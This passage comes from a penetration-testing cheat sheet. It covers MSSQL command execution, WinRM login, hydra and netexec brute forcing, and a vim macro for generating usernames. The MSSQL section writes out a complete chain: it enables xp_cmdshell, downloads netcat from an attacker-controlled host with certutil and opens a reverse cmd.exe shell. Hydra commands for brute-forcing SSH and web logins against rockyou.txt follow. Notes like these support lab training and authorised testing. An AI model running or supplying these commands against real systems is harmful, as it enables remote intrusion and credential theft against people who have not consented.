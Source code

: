```
mssql> EXECUTE sp_configure 'xp_cmdshell', 1;
mssql> RECONFIGURE;
Kali> python3 -m http.server 80
mssql> EXECUTE xp_cmdshell "certutil -urlcache -f http://<IP>/nc.exe c:/Tools/nc.exe";
Kali> nc -nlvp 4444
mssql> EXECUTE xp_cmdshell "c:/Tools/nc.exe -e cmd.exe <IP> 4444";
```
#### winRM
- WinRM Login - `evil-winrm -i <IP> -u <username> -p <password>`
#### Brute Force
- hydra
	- `hydra -l <username> -p <password> -t 4 <IP> ssh`
	- `hydra -L <username-file> -P <password-file> -t 4 <IP> ssh`
	- eg. Hydra HTTP POST Request
		- `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid:H=Cookie\:PHPSESSID=8iq9himthuca7tvv1cklua354k'`
	- eg. Hydra HTTP GET Request
		- `hydra -l admin -P /usr/share/wordlists/rockyou.txt 'http-get://<IP>/path/to/url/:username=^USER^&password=^PASS^:H=Cookie\:PHPSESSID=8iq9himthuca7tvv1cklua354k:F=Username or password invalid'`
- netexec / crackmapexec
	- Use username and password on same line number - `netexec ssh <IP> -u <user-file> -p <pass-file> --continue-on-success --no-brute`
	- Brute force with given username and password - `netexec ssh <IP> -u <user-file> -p <pass-file> --continue-on-success
	- `<pass-file>` can be `<user-file>`, `<cewl-keyword-file>`, `<crunch-wordlist>`, `<common-wordlist>` 
- Convert Names to Possible Usernames via Vim
	- We will perform combinations of names using vim such as - `Ryan Bertrand, Ryan, Ryan.Bertrand, RyanBertrand, R.Bertrand, RBertrand`
    - `vim name.lst` - contains `Ryan Bertrand`
    - Type `qa` to start recording
    - Go to first line on first character
    - Type `yy` to copy and then type `5p` for 5 copies of first line
    - Now, go to 2nd copy -> type `/ ` and enter -> type `dw` twice -> type `0` -> gives `Ryan`
    - Now, go to 3rd copy -> type `:s/ /.`  and enter -> type `0` -> gives `Ryan.Bertrand`
    - Now, go to 4th copy -> type `:s/ /` and enter -> type `0` -> gives `RyanBertrand`
    - Now, go to 5th copy -> go to 2nd character -> type `dw` -> type `0` -> gives `RBertrand`
    - Now, go to 6th copy → go to 2nd character -> type `dw` -> type i and insert . -> Esc -> type `0` -> gives `R.Bertrand`
    - Now, finish recording by typing `q`
    - Now, go to next name and to replay the above steps type `@a`
